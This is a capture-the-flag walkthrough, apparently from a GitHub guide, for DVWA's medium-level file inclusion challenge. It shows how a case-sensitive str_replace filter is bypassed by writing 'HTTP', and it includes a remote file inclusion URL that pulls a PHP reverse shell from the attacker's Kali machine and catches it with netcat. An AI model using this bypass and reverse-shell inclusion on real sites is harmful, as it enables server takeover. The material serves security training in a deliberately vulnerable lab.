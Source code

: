 <b>Challenge URL:</b> /dvwa/vulnerabilities/fi/
<br>
<b>Objective:</b> Read all five famous quotes from <b>../hackable/flags/fi.php</b> using only file inclusion.
<br>
<b>Tools needed:</b> A reverse shell, a temporary web server on Kali, netcat
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2004:%20File%20Inclusion.md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

As always, let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/fisource.png" width="500">

We see that the code tries to remove all strings fitting the format <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code>. The developers hoped to protect against remote file inclusion with the first two strings and local file inclusions with the last two. Let's see how effective they are.

<h3><b>Crafting a New Exploit</b></h3>

When reading documentation on <code><a href="https://www.w3schools.com/php/func_string_str_replace.asp" target="_blank">str_replace()</a></code>, we note a key line as follows:

<blockquote>Note: This function is case-sensitive. Use the str_ireplace() function to perform a case-insensitive search.</blockquote>

That means that anything that does not match <code>http&#58;//</code>, <code>https&#58;//</code>, <code>../</code> or <code>..\\</code> EXACTLy will still work. So let's modify our easy mode exploit by converting <code>http</code> to <code>HTTP</code> and try to replicate the exploit:

<b>http&#58;//dvwa/dvwa/vulnerabilities/fi/?page=HTTP&#58;//</b>[your_Kali_IP]<b>:9999/php-reverse-shell.php</b>

And check our <code>netcat</code> listener:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/ficomplete.png" width="500">

... And it really was that easy. Challenge complete!
